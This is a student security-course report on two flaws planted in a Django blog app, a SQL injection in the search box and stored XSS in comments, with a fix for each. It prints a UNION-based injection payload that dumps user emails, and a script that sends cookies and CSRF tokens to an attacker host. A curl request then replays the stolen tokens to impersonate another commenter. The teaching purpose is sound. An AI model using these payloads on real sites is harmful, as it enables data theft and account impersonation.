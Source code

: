 #+author: Juho Hautala
#+title: Project I Report - Security flaws from OWASP Top Ten list

* Security flaws from OWASP Top Ten 2017

This essay uses the OWASP Top Ten 2017 list: https://owasp.org/www-project-top-ten/2017.

LINK: https://github.com/vastus/cybsec21-project1

FLAW 1:
https://github.com/vastus/cybsec21-project1/blob/609cd90364be41e2b3df20bd72335be239bb46ae/project1/blog/views.py#L29

** Flaw 1: A1:2017-Injection

The first flaw shows a SQL injection vulnerability.

The app in question is a blog. The different roles of users of the blog can be an admin, author, user, or guest. Guest is the only unauthenticated role meaning that guests do not or are not signed in to the web application.

For this flaw it doesn't matter if the user is authenticated or not. The injection flaw is vulnerable through the search functionality of the application. The search functionality can be accessed from any page of the app.

The flaw can be triggered for example in the following way:

1. go to the home page of the app
2. paste the following as the search query

```
%' and false union select 1337,email,1337,1337 from blog_user --
```

This will query the user table for the application and expose all the email addresses for each registered account. Changing the column name to any other column in the user table will expose its values. The SQL injection described in this flaw doesn't allow the execution of multiple statements but this vulnerability is a serious weakness since it can be used to expose all the data stored in the database.

See https://owasp.org/Top10/A03_2021-Injection/ for more
https://owasp.org/www-project-top-ten/2017/A1_2017-Injection.html

** Flaw 1: Fixing the SQL injection

Instead of using raw SQL to perform the search one should use an ORM or escape the input used for the searching. Since this app is made with Django, the ORM should be used.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/blob/7355ba0c02171a1833733d8dfd6e1706be61d637/project1/blog/views.py#L25.

FLAW 2:
https://github.com/vastus/cybsec21-project1/blob/0d6dd7cf68128481a71d8fe1c617648ea5e75d03/project1/blog/templates/blog/posts/show.html#L68

** Flaw 2: A7:2017-Cross-Site Scripting (XSS)

The blog allows registered users to comment on posts. The comment form includes a hidden input field that's named `current_user_id` which the application uses to figure out who's the commenter. An attacker could alter the value of this field to impose commenting as someone else.

It's possible to inject <script> tags to the comment since the developers of the blog wanted to allow users to input their own markdown or styles to the comments but without further inspection this of course allows XSS attacks as well.

An attack might occur when after the attacker has registered and logged in to the site and they visit a post and comment on the post with the following comment body:

```
Interesting read...

<script>
const csrfmiddlewaretoken = document.querySelector('input[name=csrfmiddlewaretoken]').value;
const data = {cookie: document.cookie, csrfmiddlewaretoken};
fetch('https://h4x.or:1337/csrf-tokens', {method: 'POST', body: JSON.stringify({data})});
</script>
```

Given that the attacker has set up the server where the POST request is sending the CSRF token they can then use the token and another user ID to comment on posts as someone else.

An example request to exploit the vulnerability:

```
curl 'http://blog/posts/1/comments' \
     -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: csrftoken=$CSRF_TOKEN_FROM_COOKIE_PAYLOAD' \
     --data-raw 'csrfmiddlewaretoken=$CSRF_MIDDLEWARE_TOKEN_FROM_PAYLOAD&comment_user_id=1&comment_body=holup'
```

** Flaw 2: Fixing the XSS weakness

First of all the application should figure out the current user from the session instead of getting it from the hidden input field. All user input should be considered unsafe. The way that the comment body is rendered needs to be changed from safe to unsafe, so that the browser doesn't interpret the HTML tags (e.g. <script>).

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/c2e0b18a1357461d6224466c1196e1a4ad9e8438
